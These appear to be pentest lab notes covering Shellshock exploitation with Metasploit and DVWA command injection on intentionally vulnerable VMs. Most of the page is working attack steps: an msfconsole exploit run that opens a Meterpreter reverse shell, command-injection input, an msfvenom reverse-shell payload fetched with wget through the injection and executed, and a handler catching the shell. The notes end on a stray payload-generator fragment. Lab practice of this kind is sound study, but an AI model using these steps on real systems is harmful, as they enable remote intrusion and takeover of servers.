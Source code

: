 ### exploit with msfconsole
```
msf6 > search shellshock
...
   1   exploit/multi/http/apache_mod_cgi_bash_env_exec
...
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RPATH /cgi/bin/status
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS <shellshock vm ip>
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/status #web path after ip
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RPATH /bin 
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run
[*] Started reverse TCP handler on <kali ip>:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (989032 bytes) to <shellshock vm ip>
[*] Meterpreter session 1 opened (<kali ip>:4444 -> <shellshock vm ip>:52124) at 2022-09-16 14:53:32 +0200

meterpreter > getuid
Server username: pentesterlab
```

## cmd inject vuln
- set metasploitable webapp security to low : http://<metasploitable ip>/dvwa/security.php
- inject cmd to http://<metasploitable ip>/dvwa/vulnerabilities/exec/# : ` ; <cmd>`
- click view source : no input validation
- use nc to get access : same as shellshock manual exploit
- set metasploitable webapp security to medium : http://<metasploitable ip>/dvwa/security.php
  - poor input valid (exclude some chars)
- set metasploitable webapp security to high
  - strong input validation

## get meterpreter with cmd exec
- create py meterpreter payload 
```
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ msfvenom -p python/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=4446 >> meterpreter_payload.py
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ sudo cp meterpreter_payload.py /var/www/html
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ sudo service apache2 start      
```
- from web cmd inject
```
| wget http://<kali ip>/meterpreter_payload.py
ls
```
- from msf
```
use exploit/multi/handler 
set payload python/meterpreter/reverse_tcp
set LHOST <kali ip>
set LPORT 4446
run
```
- from web cmd inject
```
| python meterpreter_payload.py
```
- got meterpreter session :
```
meterpreter > getuid
Server username: www-data
```

[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate